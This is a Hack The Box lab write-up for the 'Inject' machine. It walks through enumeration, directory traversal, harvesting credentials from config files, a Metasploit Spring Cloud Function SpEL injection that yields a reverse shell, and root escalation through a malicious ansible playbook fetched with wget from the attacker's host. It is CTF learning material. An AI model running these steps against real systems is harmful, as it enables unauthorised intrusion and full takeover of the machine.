


# Hackthebox - Inject 

- Linux
- [Machine on HTB](https://app.hackthebox.com/machines/533)



## Nmap

```bash
└──╼ $sudo nmap -T4 -sC -O -sV -p- 10.10.11.204
[sudo] password for gabrielle: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 19:50 EDT
Nmap scan report for 10.10.11.204
Host is up (0.024s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/1%OT=22%CT=1%CU=42268%PV=Y%DS=2%DC=I%G=Y%TM=6428C368
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FA%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11N
OS:W7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R
OS:=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.08 seconds
```

## Port 8080

- We end up here

  

- Gobuster finds these

```bash
┌─[✗]─[gabrielle@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.11.204:8080/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.204:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/04/01 20:05:35 Starting gobuster in directory enumeration mode
===============================================================
/blogs                (Status: 200) [Size: 5371]
/environment          (Status: 500) [Size: 712] 
/error                (Status: 500) [Size: 106] 
/register             (Status: 200) [Size: 5654]
/upload               (Status: 200) [Size: 1857]
                                                
===============================================================
2023/04/01 20:06:22 Finished
===============================================================
```

- In the blogs page we have a user admin and a user Brandon Auger

- The upload page looks like this


If we upload an image we can see it and we are on a page /show_image that has an `?img=` parameter that seems injectable.  
We have a directory traversal  


- From our finding we can see that we have a user phil and a user frank.
- Let's see what we can get from these users
- Frank has some files

- The user flag is on Phil but it is protected


- If we go back to frank this .m2 folder is interesting and indeed we find a password in the settings.xml  


- Here are the creds `phil:DocPhillovestoInject123`

```xml
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

- However if we can not find the key and can not connect with ssh. If we check the ssh config we see this `DenyUsers phil`
- We can try to enumerate further the webapp. Here is the pom.xml file that might be worth a look

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

## Get a shell

If we google the items from the pom.xl we can see that it seems to be vulnerable to spring4shell, after a try of a few different exploit the one that workd was this one on Metasploit `multi/http/spring_cloud_function_spel_injection` 

- `set RHOSTS 10.10.11.204`
- `set LHOST tun0`
- Then we just need to `run`
- And we get a shell as frank  

  

## Move to Phil

- We can use the password we found previously to move to phil `su phil` it works  

  

Now we can get the user flag  

- Let's also run `python3 -c 'import pty;pty.spawn("/bin/bash")'` and `export TERM=screen` to have a better shell

## Privilege escalation

- suid are not really interesting here
- however phil belongs to the group [staff](https://raspberrypi.stackexchange.com/questions/67670/what-is-the-purpose-of-group-staff) that gives permission without having to be root.

```txt
staff: Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.
```

find / -user staff -print 2>/dev/null

/home/phil/.bash_history
-rw-r--r-- 1 root root 832 Feb  2  2020 /usr/share/bash-completion/completions/bind
/usr/lib/python3/dist-packages/ansible_collections/community/windows/tests/integration/targets/win_xml/files/config.xml
/usr/lib/python3/dist-packages/ansible_collections/junipernetworks/junos/tests/integration/targets/junos_config/templates/basic/config.xml
-rw-r--r-- 1 root root 2928 Mar 22  2020 /usr/share/bleachbit/cleaners/filezilla.xml
/usr/share/openssh/sshd_config
usr/lib/python3/dist-packages/ansible_collections/community/postgresql/tests/integration/targets/setup_postgresql_db/files/pg_hba.conf
Sudo version 1.8.31
/usr/share/openssh/sshd_config

- We get creds here `cat /usr/lib/python3/dist-packages/ansible_collections/cisco/dnac/playbooks/credentials.yml`

```txt
dnac_host: 192.168.196.2
dnac_port: 443
dnac_username: admin
dnac_password: Maglev123
dnac_version: 2.2.3.3
dnac_verify: False
```

- I decided to run pspy and found these lines

```bash
2023/04/16 01:32:03 CMD: UID=0     PID=7000   | /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1681608722.5781634-6981-17158073250937/AnsiballZ_setup.py
2023/04/16 01:32:03 CMD: UID=0     PID=6999   | /bin/sh -c /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1681608722.5781634-6981-17158073250937/AnsiballZ_setup.py && sleep 0
2023/04/16 01:32:03 CMD: UID=0     PID=6998   | /bin/sh -c /bin/sh -c '/usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1681608722.5781634-6981-17158073250937/AnsiballZ_setup.py && sleep 0'
2023/04/16 01:32:03 CMD: UID=0     PID=6981   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/04/16 01:32:03 CMD: UID=0     PID=6975   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/04/16 01:32:03 CMD: UID=0     PID=6974   | sleep 10
2023/04/16 01:32:03 CMD: UID=0     PID=6973   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
2023/04/16 01:32:03 CMD: UID=0     PID=6972   | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
```

- We have write rights on the task folder.
- Looking up ansible we can see [this](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) interesting article that can allow us to escalate.
- We create this yaml file in our kali machine

```yml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```

- This will put the suid bit on bash and we will then be able to exploit this with [this](https://gtfobins.github.io/gtfobins/bash/)
- From our target we go to the tasks folder `cd /opt/automation/tasks`
- We launch a python3 server from our attack machine
- This way we can get the file in our target `wget http://10.10.14.5/playbook_1.yml`
- The file has to be named `playbook_1.yml`
- We can rename the initial file `playbook_1.yml.old` and get the new one after.
- After a little while if we run `/bin/bash -p` we should be root
- We can grab the final flag  


